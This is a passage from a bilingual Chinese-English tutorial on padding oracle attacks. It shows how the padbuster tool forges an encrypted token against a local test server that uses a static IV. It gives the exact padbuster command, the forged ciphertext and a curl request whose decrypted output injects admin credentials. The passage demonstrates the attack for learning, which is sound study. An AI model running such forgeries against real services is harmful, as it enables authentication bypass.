```
=
0x30313233343536373839414243444546 (key ‘0123456789ABCDEF’)


--------------------------------------------------------------------
--- 加密：
--------------------------------------------------------------------
We can also encrypt arbitrary content (Please refer to the original padbuster blog post on how this works behind the scenes). The only restriction is that it is not possible to control the first block. This is due to the static IV being used. The application would still accept the resulting ciphertext if we terminate the uncontrollable data of the first block with ‘=bla&’. Note that the crafted ciphertext does not have to have the same length as the original one.
简单来说，跟我们前面讲过的padbuster标准的加密思路一样，由于这里服务器用的是服务器端写死的IV，我们当然是可以算出的，但是完全没必要，因为服务器会把接收到的全部作为密文处理，当然包括第一个区块，所以根据我们前面标准的加密思路，可以知道，我们最终生成的若干个区块的第一个区块的new...new IV绝对是跟服务器端完全不同的了，所以第一个密文区块（这里的例子实际是prefix两个区块）一定是会对应的明文一定会被解密成垃圾，所以这里利用了明文的键值对&规则，通过=bla&将前面无法控制的那堆垃圾作为key，key=bla&这样”终止掉“
# padbuster "http://127.0.0.1:5000/check?cipher=484b850123a04baf15df9be14e87369b" "484b850123a04baf15df9be14e87369b" 16 -encoding 1 -error "ApplicationUsername missing" -prefix "484b850123a04baf15df9be14e87369bc59ca16e1f3645ef53cc6a4d9d87308e" -plaintext "=bla&ApplicationUsername=admin&Password=admin"

[+] Encrypted value is: 753e2047e19bf24866ae5634f3454ef3a3802d5144a051a7246762f57a16f73531d76ada52422e176ea07e45384df69d00000000000000000000000000000000


# curl http://127.0.0.1:5000/check?cipher=753e2047e19bf24866ae5634f3454ef3a3802d5144a051a7246762f57a16f73531d76ada52422e176ea07e45384df69d00000000000000000000000000000000

decrypted: ��_c�I�B�C���=bla&ApplicationUsername=admin&Password=admin

parsed: {'\xf7\xc1_c\x9e\x1cI\x9aB\xccC\x10\xac\x07\x90\x97': ['bla'], 'Password': ['admin'], 'ApplicationUsername': ['admin']}

```



---

ref

https://www.youtube.com/watch?v=7XZdsR0jHjo

https://github.com/lyhistory/Padding-oracle-attack